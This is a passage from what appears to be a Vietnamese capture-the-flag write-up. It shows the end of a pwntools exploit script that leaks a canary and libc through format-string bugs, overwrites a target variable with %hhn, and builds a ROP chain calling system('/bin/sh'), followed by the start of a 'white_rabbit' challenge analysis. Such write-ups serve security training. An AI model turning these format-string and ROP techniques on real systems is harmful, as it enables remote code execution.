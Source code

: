 ```python
log.info(f"canary: {hex(canary)}")
exe.address = exe_leak - 0x1747
log.info(f"exe = {hex(exe.address)}")

#######leak libc##########
p.sendlineafter(b'> ',b'4')
payload = b'%7$saaaa'
payload += p64(exe.got.puts)

p.send(payload)
p.recvuntil(b'Right or left?')
p.recvline()
leak_libc = u64(p.recv(6).ljust(8,b'\x00'))
libc.address = leak_libc - libc.sym.puts

log.info(f"leak libc {hex(leak_libc)}")
log.info(f"leak libc: {hex(libc.address)}")
pop_rdi = 0x000000000002a3e5 + libc.address

####change value of target = 16 ######
p.sendlineafter(b'> ',b'4')
p.send(b'%16c%8$hhnaaaaaa' + p64(target + exe.address))


input()
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'Enter your move: ',b'a'*24 + p64(canary) + p64(0) + p64(pop_rdi) + p64(next(libc.search('/bin/sh\x00')))+ p64(pop_rdi+1) + p64(libc.sym.system))



p.interactive()
```


sever đóng ròi : 

![image](https://hackmd.io/_uploads/rJmvsjWNJx.png)





## white_rabbit


bài này khá đơn giản nên sẽ nói nhanh

checksec

NT TẮT -> có thể dùng shellcode , tuy nhiên PIE lại bật , ta cần phân tích xem có thể leak được gì không
![image](https://hackmd.io/_uploads/H1XWnsWVyg.png)
